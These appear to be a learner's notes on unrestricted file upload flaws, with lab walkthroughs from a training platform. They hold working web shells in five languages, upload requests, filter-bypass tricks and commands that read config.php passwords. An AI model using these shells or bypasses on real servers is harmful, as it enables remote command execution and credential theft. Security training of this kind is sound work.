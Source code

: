 #+title: Unrestricted File Upload
#+author:gabriel

* intro
Unrestricted File Upload vulnerabilities arise from the insecure development of file upload functionalities in web applications. n modern web applications, file uploading is a crucial function that allows users to attach files or change their profile pictures.

Unrestricted file upload vulnerabilities occur when an application accepts user-uploaded files without adequate security checks. These vulnerabilities typically arise when the file type, size, name, or content is not verified.

- User File Upload: The user uploads a file (e.g., via a profile picture upload form).
- Insufficient Validation: The uploaded file is not adequately validated in terms of type, size, or content.
- Acceptance of File: The server accepts the file and saves it to a specific directory.
- Attacker Control: An attacker can upload a malicious file to execute arbitrary code or access sensitive data on the server.

- Web Applications: Especially forms or functions that allow users to upload files.
- Content Management Systems (CMS): CMSs that allow users to upload files.
- File Sharing Platforms: Platforms that allow users to upload and share files.
- Operating System Scripts: Scripts that allow users to upload and process files.

 *profile picture upload scenario*  ->
 On a social media platform, users updating their profile pictures can upload a malicious file posing as an image, allowing the attacker to execute commands on the server.

*CV upload scenario* ->
On a job application portal, users uploading their resumes can upload a malicious file disguised as a PDF, leading to server control being compromised by the attacker.


* detecting the vulnerability
The first step in detecting an Unrestricted File Upload vulnerability is to check if the file upload process is properly restricted. The following indicators can suggest that a file upload function is not secure:

- File type validation is missing or inadequate.
- Dangerous characters can be found in uploaded file names and paths.
- File size checks are incomplete or entirely absent.
- Uploaded files are directly accessible and executable.

** testing methods
Various testing methods can be used to detect the vulnerability:

*** filetype validation
- Attempt to upload files of different types (e.g., .jpg, .php, .asp, .exe).
- Check if the server accepts these files.

*** file content validation
- Try uploading files with modified contents (e.g., inserting PHP code into a .gif file).
- Verify how the server processes the content of the uploaded file.

*** MIME type validation
- Attempt to upload files with altered MIME types (e.g., setting the MIME type of a .php file to image/jpeg).
- Check if the server accepts these files.

*** File Name and Path Validation
- Attempt to upload files with dangerous characters in their names and paths (e.g., directory traversal characters like ../../).
- Verify if the server accepts these files and stores them in the correct directory.

*** file size validation
- Attempt to upload very large files.
- Check how the server enforces file size limits and if it accepts large files.

* identifying the vulnerability
To confirm and exploit the vulnerability, attempts will be made to upload malicious files such as web shells with a php extension that could lead to unauthorized operations on the system.

[[./imgs/application.png]]

Since the target system is written in PHP, a web shell file named cmd.php has been prepared using PHP. The source code is provided below:

#+begin_src php cmd.php
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
#+end_src

[[./imgs/uploaded.png]]

It is observed that the shell file has been successfully uploaded to the system without any filtering, indicating the presence of the Unrestricted File Upload vulnerability.

The path of the uploaded file is provided on the screen, allowing shell commands to be executed on the operating system with the given permissions.,

[[./imgs/whoa.png]]


[[./imgs/pwd.png]]

* Filter bypass techniques
When dealing with applications that have file upload vulnerabilities, it is not always possible to directly upload a malicious file. Some file extensions or MIME types are blocked using a blacklist.

In such cases, it is necessary to bypass the filter in some way.

This section will elaborate on these techniques:

** MIME type bypass
MIME Type is an internet standard that indicates the type of a file and tells the server how to handle it. Attackers can bypass security checks by specifying incorrect MIME types. Examples: image/jpeg, image/png, text/html, application/json.

Some applications check the MIME types of uploaded files to block certain file types from being uploaded. However, by altering or manipulating the MIME types, these filters can be bypassed.

When attempting to upload a .php file to an application that allows only image files, a denied file format error is encountered.

[[./imgs/php.png]]

The HTTP POST request sent to the server has been inspected using the Burp Suite Web Proxy software, and necessary manipulations have been performed.

Below is an HTTP request where the attacker tries to upload a malicious PHP file as an image file ->
#+begin_src python
POST / HTTP/1.1
Host: sunny-zombie.europe1.hackviser.space
Content-Length: 354
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6CZGdFhAqm0hjeeA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundary6CZGdFhAqm0hjeeA
Content-Disposition: form-data; name="input_image"; filename="cmd.php"
Content-Type: text/php

<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
------WebKitFormBoundary6CZGdFhAqm0hjeeA
Content-Disposition: form-data; name="submit"


------WebKitFormBoundary6CZGdFhAqm0hjeeA--
#+end_src

The attacker is attempting to upload a malicious PHP file. However, the MIME type is specified as text/php, and thus, the server does not accept this file.

By changing the MIME type to image/png, the file upload is attempted again:
: Content-Type: image/png

With this change, the server might perceive the file as an image and allow the upload.

[[./imgs/changed.png]]

** File signature -Magic Header Bypass
File signature (magic header) is a specific sequence of bytes that identifies the content of a file. Applications often check these signatures to determine the type of the file. By manipulating the file signature, these checks can be bypassed

Below is an HTTP request where the attacker tries to upload a malicious PHP file:
#+begin_src python
POST / HTTP/1.1
Host: included-aquagirl.europe1.hackviser.space
Content-Length: 354
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiXbT96o7HsUdrZoy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryiXbT96o7HsUdrZoy
Content-Disposition: form-data; name="input_image"; filename="cmd.php"
Content-Type: text/php

<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
------WebKitFormBoundaryiXbT96o7HsUdrZoy
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryiXbT96o7HsUdrZoy--
#+end_src

To bypass the filter, GIF89a is added to the beginning of the file, making it look like a GIF file. If the server checks for this signature, it might perceive the file as an image and allow the upload. This enables the attacker to upload malicious PHP code.

#+begin_src php cmd.php
GIF89a;
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
#+end_src


Below is an HTTP request where the attacker manipulates the file signature and attempts to upload the same file:
#+begin_src php
POST / HTTP/1.1
Host: included-aquagirl.europe1.hackviser.space
Content-Length: 354
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDZr5C5w7CxV3fYnf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryDZr5C5w7CxV3fYnf
Content-Disposition: form-data; name="input_image"; filename="cmd.php"
Content-Type: text/php

GIF89a;
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
------WebKitFormBoundaryDZr5C5w7CxV3fYnf
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryDZr5C5w7CxV3fYnf--
#+end_src

After sending the request, it is observed that the malicious file has been successfully uploaded.

** File extension bypass
After sending the request, it is observed that the malicious file has been successfully uploaded.

- *PHP*: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .pht, .phtm, .phtml, .phar

- *ASP*: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

- *JSP*: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

** ADding executable file extension with .htaccess
The .htaccess file is used in web servers to define directory-based configurations and security settings. Using the .htaccess file on a web server, special file extensions can be defined, allowing them to be processed as PHP.

In the first step, create and upload a web shell file with any desired extension. In this example, a file with the .bypass extension is created:

#+begin_src php cmd.bypass
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
#+end_src

In the second step, add the following line to the .htaccess file to ensure that files with the .bypass extension are processed as PHP:
: AddType application/x-httpd-php .bypass

** using NULL byte %00
By using hidden characters such as a null byte (%00) in the file extension, change the extension (e.g., cmd.php%00.jpg).

In some systems, case sensitivity might differ; therefore, write the file extension in uppercase (e.g., CMD.PHP).

* web shell list
or more effective command execution in file upload vulnerabilities, comprehensive web shells offering enhanced functionality can be used. These can be found on GitHub.

The web shell repository located at github.com/tennc/webshell hosts web shell files for all programming languages. You can choose a shell based on your needs from this repository.

** P0wny Shell
P0wny Shell is a web shell developed for the PHP language. It is popular due to its simple usage. It can be easily downloaded and used from
https://github.com/flozz/p0wny-shell.

** Simple shell codes
*PHP* ->
#+begin_src php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
#+end_src

*Poc(Proof Of Concept)* ->
: http://example.com/shell.php?cmd=whoami

*ASP* ->
A simple web shell for ASP can be used to execute commands on the server:
#+begin_src java
<%
If Request.QueryString("cmd") <> "" Then
    Set objShell = Server.CreateObject("WScript.Shell")
    Set objExec = objShell.Exec(Request.QueryString("cmd"))
    Set objOutput = objExec.StdOut
    Response.Write("<pre>" & objOutput.ReadAll() & "</pre>")
End If
%>
#+end_src

: http://example.com/shell.php?cmd=whoami

*JSP* ->
A simple web shell for JSP can be used to execute commands on the server:
#+begin_src java
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    String s = "";
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while ((s = sI.readLine()) != null) {
        out.println(s);
    }
}
%>
#+end_src

: http://example.com/shell.php?cmd=whoami

*Python* ->
A simple web shell for Python can be used to execute commands on the server:
#+begin_src python
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/shell', methods=['GET'])
def shell():
    cmd = request.args.get('cmd')
    if cmd:
        output = os.popen(cmd).read()
        return f"<pre>{output}</pre>"
    return "<pre>No command provided</pre>"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
#+end_src

: http://example.com/shell.php?cmd=whoami

*NodeJS* ->
A simple web shell for Node.js can be used to execute commands on the server:
#+begin_src javascript
const express = require('express');
const { exec } = require('child_process');

const app = express();

app.get('/shell', (req, res) => {
  const cmd = req.query.cmd;
  if (cmd) {
    exec(cmd, (error, stdout, stderr) => {
      if (error) {
        res.send(`<pre>${stderr}</pre>`);
        return;
      }
      res.send(`<pre>${stdout}</pre>`);
    });
  } else {
    res.send('<pre>No command provided</pre>');
  }
});

app.listen(8080, '0.0.0.0', () => {
  console.log('Web shell running on port 8080');
});
#+end_src

: http://example.com/shell.php?cmd=whoami

* exam machine
THe application only accepts .jpeg,.png,.git files, i put a .php file with this payload ->
#+begin_src php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
#+end_src

Change the mime file type to image/png and the name of the file to cmd.phtml
#+begin_src php
GET /uploads/cmd.phtml?cmd=whoami HTTP/1.1
Host: filemanager.hv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
#+end_src

*response* ->
#+begin_src php
HTTP/1.1 200 OK
Date: Tue, 30 Sep 2025 01:24:23 GMT
Server: Apache/2.4.59 (Debian)
Content-Length: 9
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

www-data
#+end_src

* basic unrestricted file upload
This lab contains a Unrestricted File Upload vulnerability. The application has an image upload function, but the uploaded file content or type is not checked on the server.

To complete the lab, upload a malicious PHP script and read the "config.php" file.

What is the database password in the config.php file?

*payload cmd.php* ->
#+begin_src php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
#+end_src

Works and the webshell is uploaded
: https://current-radioactive-man.europe1.hackviser.space/uploads/cmd.php?cmd=ls


Get the password of the config.php file ->
: GET /uploads/cmd.php?cmd=cat%20..%2fconfig.php

* MIME Type filter bypass
This lab contains an unrestricted file upload vulnerability. The image upload function in the application filters uploaded files based on the Mime-Type.

To complete the lab, upload a malicious PHP script by changing the Mime-Type and read the "config.php" file.

What is the database password in the config.php file?

Just change the MIME type at Contet-Type 'inside' of the file ->
#+begin_src php
Content-Disposition: form-data; name="input_image"; filename="cmd.php"
Content-Type: image/png

GIF89a;
<?php
if(isset($_GET['cmd'])) {
	system($_GET['cmd']);
}
?>
#+end_src

Get the password ->
: GET /uploads/cmd.php?cmd=cat ../config.php

* file signature filter bypass
This lab contains an unrestricted file upload vulnerability. The image upload function in the application filters uploaded files based on the file signature (a.k.a magic bytes).

To complete the lab, upload a malicious PHP script by manipulating the file signature and read the "config.php" file.

What is the database password in the config.php file?

*bypass* ->
#+begin_src php
GIF89a;
<?php
if(isset($_GET['cmd'])) {
	system($_GET['cmd']);
}
?>
#+end_src

To bypass the filter, GIF89a is added to the beginning of the file, making it look like a GIF file. If the server checks for this signature, it might perceive the file as an image and allow the upload. This enables the attacker to upload malicious PHP code.

* file extension filter bypass
This lab contains an unrestricted file upload vulnerability. The image upload function in the application filters uploaded files based on the file extension blacklist. Many file extensions that are dangerous to upload are included in this blacklist.

To complete the lab, find a file extension that is not on the blacklist and upload the malicious PHP file with that extension, then read the "config.php" file.

What is the database password in the config.php file?

* file extension improved filter bypass
This lab contains an unrestricted file upload vulnerability. The image upload function in the application filters uploaded files based on the file extension blacklist. Almost all file extensions that are dangerous to upload are included in this blacklist.

To complete the lab, find a file extension that is not on the blacklist and upload the malicious PHP file with that extension, then read the "config.php" file.

What is the database password in the config.php file?
